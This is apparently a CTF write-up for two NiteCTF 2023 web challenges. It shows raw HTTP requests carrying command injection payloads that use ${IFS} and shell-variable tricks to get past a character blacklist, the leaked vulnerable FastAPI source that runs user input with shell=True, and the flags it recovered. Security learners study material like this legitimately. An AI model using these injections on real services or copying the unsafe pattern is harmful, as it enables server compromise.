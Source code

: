 ```yaml
---
toc: true
title: "NiteCTF 2023"
description: NiteCTF
date: 2023-12-18
author: Duc Anh Nguyen
---
```



## [Web: caas_renewed](http://caas.web.nitectf.live)
There is a cowsay service running, it takes user input from the `GET URL: /cowsay/{input}`. Cleary there is a command injection vulnerability. But there are some filters and also restrictions for the input, I was able to extract the source code of the server using the following payload:

```http
GET /cowsay/a;cd${IFS}-;cat${IFS}ma* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```

<details>
<summary><b>SourceLeak.py</b></summary>

```python
from fastapi import FastAPI
from fastapi.staticfiles import StaticFiles
from fastapi.responses import PlainTextResponse
import subprocess
import time
import os
from uvicorn.workers import UvicornWorker


# remove server header
# gunicorn  -k main.ServerlessUvicornWorker main:app -b "0.0.0.0:1337" --access-logfile '-'
class ServerlessUvicornWorker(UvicornWorker):
    def __init__(self, *args, **kwargs):
        self.CONFIG_KWARGS["server_header"] = False
        super().__init__(*args, **kwargs)


TIMEOUT = 5
SLEEP_TIME = 0.1
DEBUG = False

BLACKLIST = [x[:-1] for x in open("./blacklist.txt").readlines()][:-1]

BLACKLIST.append("/")
BLACKLIST.append("\\")
BLACKLIST.append(" ")
BLACKLIST.append("\t")
BLACKLIST.append("\n")
BLACKLIST.append("tc")

ALLOW = [
    "{",
    "}",
    "[",
    "pwd",
    "-",
    "if",
    "tac",
    "ac",
    "cd",
    "tree",
    "ls",
    "echo",
    "tee",
    "touch",
    "mkdir",
    "dir",
    "mv",
    "chmod",
    "ping",
]

for a in ALLOW:
    try:
        BLACKLIST.remove(a)
    except ValueError:
        pass


def isClean(input):
    input = input.lower().strip()
    if any(x in input for x in BLACKLIST):
        if DEBUG:
            for i in BLACKLIST:
                if i in input:
                    print("Banned reason:", i)
                    break
        return False
    return True


def timeout(proc):
    count = 0
    while proc.poll() == None:
        time.sleep(SLEEP_TIME)
        count += SLEEP_TIME
        if count > TIMEOUT:
            proc.terminate()


app = FastAPI()
api = FastAPI()

pwd = os.path.dirname(os.path.realpath(__file__))

app.mount("/cowsay", api)
#app.mount("/", StaticFiles(directory="{}/static".format(pwd), html=True))

#os.chdir("/usr/games")


@api.get("/{user_input}")
def response(user_input):
    if not isClean(user_input):
        cmd = "cowsay {}".format("'Whoops! I cannot say that'")

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )
        output = p.communicate()[0]

        return PlainTextResponse(output)
    else:
        cmd = "cowsay {}".format(user_input)

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )

        timeout(p)

        if DEBUG:
            try:
                output = "\n".join(x.decode() for x in p.communicate())
            except (UnicodeDecodeError, AttributeError):
                try:
                    output = p.communicate()[1].decode()
                except:
                    output = p.communicate()[1]

        else:
            output = p.communicate()[0].decode()

        if DEBUG:
            print("OUTPUT:", output)

        if len(output):
            return PlainTextResponse(output)

        else:
            if "denied" in output:
                cmd = "cowsay {}{}".format('"permission denied"', user_input)
            else:
                cmd = "cowsay {}{}".format(
                    '"Oops! Something went wrong. You said "', user_input
                )

            p = subprocess.Popen(
                cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
            )

            output = p.communicate()[0]

        return PlainTextResponse(output)
```
</details>

Knowing the logic behind blacklisting characters now, it is easy to spin up a payload to print out the flag

- `pwd|c'u't${IFS}-c1`: Get the first character of the command pwd, which is pwd
- ban=\`echo${IFS}t\`: Set the variable ban to t (which is one of the blacklisted characters)
- `cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f*`: Print the flag.

```http
GET /cowsay/a;slash=`pwd|c'u't${IFS}-c1`;ban=`echo${IFS}t`;cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```

**Flag:**

```http
HTTP/1.1 200 OK
date: Mon, 18 Dec 2023 10:04:21 GMT
content-length: 180
content-type: text/plain; charset=utf-8
Connection: close

 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```

# [Web: Eraas](!http://eraas.web.nitectf.live/)
Command injection in user input:

```http
POST / HTTP/1.1
Host: eraas.web.nitectf.live
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eraas.web.nitectf.live
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eraas.web.nitectf.live/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

user_input=1745291415|cat flag.txt
```

Flag:
`nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`

